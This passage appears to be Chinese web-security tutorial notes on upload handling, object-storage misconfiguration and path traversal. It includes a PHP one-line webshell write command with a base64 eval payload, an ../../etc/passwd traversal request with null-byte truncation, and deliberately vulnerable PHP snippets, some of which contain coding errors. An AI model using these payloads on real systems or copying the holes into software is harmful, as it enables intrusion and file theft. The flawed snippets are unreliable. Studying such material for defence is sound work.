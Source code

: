 文件内容处理，有以下参考策略：
1、对于图像文件，在判断其是否为恶意文件时，不要尝试查找恶意脚本特征，而是使用图像处理库载入图像，在导出为新图像(二次渲染)。
2、对于Office或PDF文档，也可以使用响应的解析库读取其内容，并导出为新文件。
3、在安全要求更高的场景中，图像的裁剪、加水印、文档解析等工作，最好在隔离环境中进行。断网，使用容器运行等
### 命令写入一句话马
php 一句话木马
```
"fputs(fopen('dotast.php','w'),base64_decode(\"PD9waHAgQGV2YWwoJF9QT1NUWydwYXNzJ 10pOw==\"));"
```
在system函数被过滤的时候，可以使用这个方式写入木马
## 对象存储的安全
随着云服务不断普及，越来越多的web应用使用对象存储作为静态文件存储，比如阿里云的OSS和腾讯云的COS。虽然云厂商的对象存储服务安全性非常高，有完善的签名校验机制，并且经过了严格的安全测试，但是如果开发者配置或使用不当，也可能产生严重的安全漏洞。
在对象存储中，文件是以键值对形式存在的，键是一个路径，值就是文件本身的内容。云厂商都提供了丰富的API来实现文件的上传和下载，并向用户提供一对AccessKeyID/AccessKeySecret用于认证和授权，调用对象存储时的API时使用AccessKeySecret对请求参数计算消息认证码(HMAC)，然后将其作为签名提交给服务端校验合法性。
对象存储中最基本的安全策略是对象和桶的读写ACL，敏感的文件一般被设置为"私有访问"，如果要将其提供给网页下载 ，则可以使用已签名的临时URL。如果应用中没有敏感文件的数据，并且确实有公开访问的需求，则可以将文件设置为"公开可读"的。很多对象也支持"公开可读写"。
为了方便客户端上传和下载文件，在web应用或移动App中使用对象存储时，一般让客户端直接访问对象存储服务，文件无须经过web应用服务端中转。一个很常见的错误用法是，开发人员直接将AccessKeyID/AccessKeySecret硬编码在前端或移动App中，在前端或者客户端完成签名过程。攻击者查看网页源代码，或者逆向分析移动App，就能获得AccessKeySecret，从而控制整个对象存储桶，下载或 删除其他用户的文件。
在这个场景中，安全的做法是使用临时访问凭证(STS)来访问对象存储服务。通过STS临时访问阿里云的OSS的过程。该过程中，应用服务器可以为STS凭证指定授权策略和过期时间，以限制客户端只能执行特定的操作，比如只能访问特定路径下的文件(限制键的前缀)。
即使使用了临时访问凭证，如果不同用户上传的文件存储在同一目录中，或者STS授权的策略不够严格，那么攻击者可以构造特定的文件名来覆盖已有的文件，达到修改其他用户文件的目的。下载文件也类似，攻击者可以读取其他用户的文件。所以，最重要的是为每个用户分配最小访问权限。
另一种客户端操作对象存储的方式是使用服务端签名，客户端用合法的签名直接访问对象存储。
这种做法签名全部在服务端完成，服务端可以对操作进行安全检查，再决定是否为其签名，因此比STS有更高的安全性。以读取私有桶的对象为例，客户端要通过如下请求从应用服务器获取一个访问目标的合法签名：
`https://example.com/get_signature?object=/path/filename`
应用服务器返回一个带合法签名的URL，客户端再用这个URL去访问对象存储：
`https://bucketname.cloudservice.com/path/filename?signature=******`
大量web应用使用存储对象实现上传和下载。这里存在一个非常常见的安全问题，因为操作对象是客户端指定的，如果服务端对路径没有做相应的安全校验，可让服务端生成读取或覆盖其他用户文件的合法签名，如果指定根路径，还会列出存储桶中所有的对象信息。
存储对象服务一般都支持绑定自定义域名，假如开发者将其用于存储 网站的静态资源，将存储桶绑定了自定义域名static.example.com，在上传文件时就要考虑文件格式和内容，否则攻击者上传包含了恶意JavaScript代码的网页时，将给网站带来XSS威胁。
## 路径穿越(Path Traversal)
在文件系统中，通过"../"可以访问上一级目录。所谓路径穿越，是指用户通过"../"的方式访问应用程序预期之外的目录。假设download.php实现了文件下载的功能，其代码如下：
```
<?php
$filename = $_GET['filename'];
echo file_get_contents("files/$filename");
?>
```
如果攻击者提交如下请求：
`/download.php?filename=../../../../etc/passwd`
应用程序将返回/etc/passwd文件的内容，这种攻击就叫做"路径穿越攻击"或"目录穿越攻击"漏洞。
如果应用程序中拼接了文件后缀名，也可以通过"\0"字符来截断后缀名。例如，用户提交filename=../../../../etc/passwd%00就能截断后面拼接的后缀名：
```
<?php
$filename = $_GET['filename'];
echo file_get_contents("files/$filename"+".jpg");
?>
```
最常见的路径穿越攻击就是任意文件读取，攻击者可以读取应用程序中包含的敏感数据的配置文件，或者源代码。另一种常见的路径穿越攻击是实现代码的执行，比如：
```
<?php
$template = 'blue.php';
if(is_set($_COOKIE['TEMPLATE']))
    $template = $_COOKIE['TEMPLATE'];
include ("/home/users/phpguru/templates".$template);;    
?>
```
攻击者实现上传一个包含PHP代码的图像文件，然后通过路径穿越让应用程序通过include()函数载入图像文件，从而实现任意代码执行。